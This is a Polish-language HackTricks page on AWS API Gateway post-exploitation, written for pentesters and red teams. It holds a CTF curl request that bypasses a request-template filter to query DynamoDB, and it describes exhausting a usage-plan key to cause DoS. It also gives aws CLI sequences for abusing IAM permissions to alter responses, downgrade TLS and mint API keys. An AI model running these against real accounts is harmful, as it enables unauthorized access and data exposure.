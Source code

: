 # AWS - Wykorzystanie po eksploatacji bramy API

{% hint style="success" %}
&#x20;Naucz się i praktykuj Hacking AWS:<img src="../../../.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image.png" alt="" data-size="line">\
&#x20;Naucz się i praktykuj Hacking GCP: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Wesprzyj HackTricks</summary>

* Sprawdź [**plany subskrypcyjne**](https://github.com/sponsors/carlospolop)!
* **Dołącz do** 💬 [**Grupy Discord**](https://discord.gg/hRep4RUj7f) lub [**grupy telegramowej**](https://t.me/peass) lub **śledź** nas na **Twitterze** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Dziel się trikami hakerskimi, przesyłając PR-y do** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) na githubie.

</details>
{% endhint %}

## Brama API

Aby uzyskać więcej informacji, sprawdź:

{% content-ref url="../aws-services/aws-api-gateway-enum.md" %}
[aws-api-gateway-enum.md](../aws-services/aws-api-gateway-enum.md)
{% endcontent-ref %}

### Dostęp do nieujawnionych interfejsów API

Możesz utworzyć punkt końcowy w [https://us-east-1.console.aws.amazon.com/vpc/home#CreateVpcEndpoint](https://us-east-1.console.aws.amazon.com/vpc/home?region=us-east-1#CreateVpcEndpoint:) z usługą `com.amazonaws.us-east-1.execute-api`, odsłonić punkt końcowy w sieci, do której masz dostęp (potencjalnie za pośrednictwem maszyny EC2) i przypisać grupę zabezpieczeń zezwalającą na wszystkie połączenia.\
Następnie z maszyny EC2 będziesz mógł uzyskać dostęp do punktu końcowego i w ten sposób wywołać bramę API, która wcześniej nie była ujawniona.

### Ominięcie przekazywania treści żądania

Ta technika została znaleziona w [**tym rozwiązaniu CTF**](https://blog-tyage-net.translate.goog/post/2023/2023-09-03-midnightsun/?\_x\_tr\_sl=en&\_x\_tr\_tl=es&\_x\_tr\_hl=en&\_x\_tr\_pto=wapp).

Jak wskazano w [**dokumentacji AWS**](https://docs.aws.amazon.com/AWSCloudFormation/latest/UserGuide/aws-properties-apigateway-method-integration.html) w sekcji `PassthroughBehavior`, domyślnie wartość **`WHEN_NO_MATCH`** , podczas sprawdzania nagłówka **Content-Type** żądania, przekaże żądanie do backendu bez transformacji.

Dlatego w CTF Brama API miała szablon integracji, który **uniemożliwiał wyciek flagi** w odpowiedzi, gdy żądanie było wysyłane z `Content-Type: application/json`:

{% code overflow="wrap" %}
```yaml
RequestTemplates:
application/json: '{"TableName":"Movies","IndexName":"MovieName-Index","KeyConditionExpression":"moviename=:moviename","FilterExpression": "not contains(#description, :flagstring)","ExpressionAttributeNames": {"#description": "description"},"ExpressionAttributeValues":{":moviename":{"S":"$util.escapeJavaScript($input.params(''moviename''))"},":flagstring":{"S":"midnight"}}}'
```
{% endcode %}

Jednak wysłanie żądania z **`Content-type: text/json`** uniemożliwiłoby filtrowanie.&#x20;

Wreszcie, ponieważ brama API zezwalała tylko na `Get` i `Options`, było możliwe wysłanie dowolnego zapytania do dynamoDB bez żadnych ograniczeń, wysyłając żądanie POST z zapytaniem w ciele i używając nagłówka `X-HTTP-Method-Override: GET`:

{% code overflow="wrap" %}
```bash
curl https://vu5bqggmfc.execute-api.eu-north-1.amazonaws.com/prod/movies/hackers -H 'X-HTTP-Method-Override: GET' -H 'Content-Type: text/json'  --data '{"TableName":"Movies","IndexName":"MovieName-Index","KeyConditionExpression":"moviename = :moviename","ExpressionAttributeValues":{":moviename":{"S":"hackers"}}}'
```
{% endcode %}

### Plany użycia DoS

W sekcji **Enumeracja** można zobaczyć, jak **uzyskać plan użycia** kluczy. Jeśli masz klucz i jest on **ograniczony** do X użycia **miesięcznie**, możesz go **po prostu użyć i spowodować DoS**.

Klucz **API** musi być po prostu **dołączony** do **nagłówka HTTP** o nazwie **`x-api-key`**.

### `apigateway:UpdateGatewayResponse`, `apigateway:CreateDeployment`

Atakujący posiadający uprawnienia `apigateway:UpdateGatewayResponse` i `apigateway:CreateDeployment` może **zmodyfikować istniejącą odpowiedź bramy, aby zawierała niestandardowe nagłówki lub szablony odpowiedzi, które ujawniają poufne informacje lub wykonują złośliwe skrypty**.

{% code overflow="wrap" %}
```bash
API_ID="your-api-id"
RESPONSE_TYPE="DEFAULT_4XX"

# Update the Gateway Response
aws apigateway update-gateway-response --rest-api-id $API_ID --response-type $RESPONSE_TYPE --patch-operations op=replace,path=/responseTemplates/application~1json,value="{\"message\":\"$context.error.message\", \"malicious_header\":\"malicious_value\"}"

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
{% endcode %}

**Potencjalne skutki**: Ujawnienie poufnych informacji, wykonywanie złośliwych skryptów lub nieautoryzowany dostęp do zasobów interfejsu API.

{% hint style="info" %}
Potrzebne testowanie
{% endhint %}

### `apigateway:UpdateStage`, `apigateway:CreateDeployment`

Atakujący posiadający uprawnienia `apigateway:UpdateStage` i `apigateway:CreateDeployment` może **modyfikować istniejący etap bramy API w celu przekierowania ruchu do innego etapu lub zmiany ustawień buforowania w celu uzyskania nieautoryzowanego dostępu do danych buforowanych**.

{% code overflow="wrap" %}
```bash
API_ID="your-api-id"
STAGE_NAME="Prod"

# Update the API Gateway stage
aws apigateway update-stage --rest-api-id $API_ID --stage-name $STAGE_NAME --patch-operations op=replace,path=/cacheClusterEnabled,value=true,op=replace,path=/cacheClusterSize,value="0.5"

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
{% endcode %}

**Potencjalny wpływ**: Nieautoryzowany dostęp do danych z pamięci podręcznej, zakłócanie lub przechwytywanie ruchu API.

{% hint style="info" %}
Potrzeba testowania
{% endhint %}

### `apigateway:PutMethodResponse`, `apigateway:CreateDeployment`

Atakujący posiadający uprawnienia `apigateway:PutMethodResponse` i `apigateway:CreateDeployment` może **zmodyfikować odpowiedź metody istniejącej metody interfejsu API Gateway REST w celu dodania niestandardowych nagłówków lub szablonów odpowiedzi, które ujawnią wrażliwe informacje lub wykonają złośliwe skrypty**.
```bash
API_ID="your-api-id"
RESOURCE_ID="your-resource-id"
HTTP_METHOD="GET"
STATUS_CODE="200"

# Update the method response
aws apigateway put-method-response --rest-api-id $API_ID --resource-id $RESOURCE_ID --http-method $HTTP_METHOD --status-code $STATUS_CODE --response-parameters "method.response.header.malicious_header=true"

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
**Potencjalny wpływ**: Ujawnienie poufnych informacji, wykonywanie złośliwych skryptów lub nieautoryzowany dostęp do zasobów interfejsu API.

{% hint style="info" %}
Potrzebne testowanie
{% endhint %}

### `apigateway:UpdateRestApi`, `apigateway:CreateDeployment`

Atakujący posiadający uprawnienia `apigateway:UpdateRestApi` i `apigateway:CreateDeployment` może **zmodyfikować ustawienia interfejsu API Gateway REST w celu wyłączenia logowania lub zmiany minimalnej wersji TLS, potencjalnie osłabiając bezpieczeństwo interfejsu API**.
```bash
API_ID="your-api-id"

# Update the REST API settings
aws apigateway update-rest-api --rest-api-id $API_ID --patch-operations op=replace,path=/minimumTlsVersion,value='TLS_1.0',op=replace,path=/apiKeySource,value='AUTHORIZER'

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
**Potencjalny wpływ**: Oslabienie bezpieczeństwa interfejsu API, potencjalnie umożliwiające nieautoryzowany dostęp lub ujawnienie poufnych informacji.

{% hint style="info" %}
Potrzebne testowanie
{% endhint %}

### `apigateway:CreateApiKey`, `apigateway:UpdateApiKey`, `apigateway:CreateUsagePlan`, `apigateway:CreateUsagePlanKey`

Atakujący posiadający uprawnienia `apigateway:CreateApiKey`, `apigateway:UpdateApiKey`, `apigateway:CreateUsagePlan` i `apigateway:CreateUsagePlanKey` może **tworzyć nowe klucze API, powiązywać je z planami użycia, a następnie używać tych kluczy do nieautoryzowanego dostępu do interfejsów API**.
```bash
# Create a new API key
API_KEY=$(aws apigateway create-api-key --enabled --output text --query 'id')

# Create a new usage plan
USAGE_PLAN=$(aws apigateway create-usage-plan --name "MaliciousUsagePlan" --output text --query 'id')

# Associate the API key with the usage plan
aws apigateway create-usage-plan-key --usage-plan-id $USAGE_PLAN --key-id $API_KEY --key-type API_KEY
```
**Potencjalny wpływ**: Nieautoryzowany dostęp do zasobów interfejsu API, obejście kontroli bezpieczeństwa.

{% hint style="info" %}
Potrzebne testowanie
{% endhint %}

<details>

<summary><strong>Nauka hakowania AWS od zera do bohatera z</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Inne sposoby wsparcia HackTricks:

* Jeśli chcesz zobaczyć swoją **firmę reklamowaną w HackTricks** lub **pobrać HackTricks w formacie PDF**, sprawdź [**PLANY SUBSKRYPCYJNE**](https://github.com/sponsors/carlospolop)!
* Zdobądź [**oficjalne gadżety PEASS & HackTricks**](https://peass.creator-spring.com)
* Odkryj [**Rodzinę PEASS**](https://opensea.io/collection/the-peass-family), naszą kolekcję ekskluzywnych [**NFT**](https://opensea.io/collection/the-peass-family)
* **Dołącz do** 💬 [**grupy Discord**](https://discord.gg/hRep4RUj7f) lub [**grupy telegramowej**](https://t.me/peass) lub **śledź** nas na **Twitterze** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Podziel się swoimi sztuczkami hakowania, przesyłając PR-y do** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) na GitHubie.

</details>
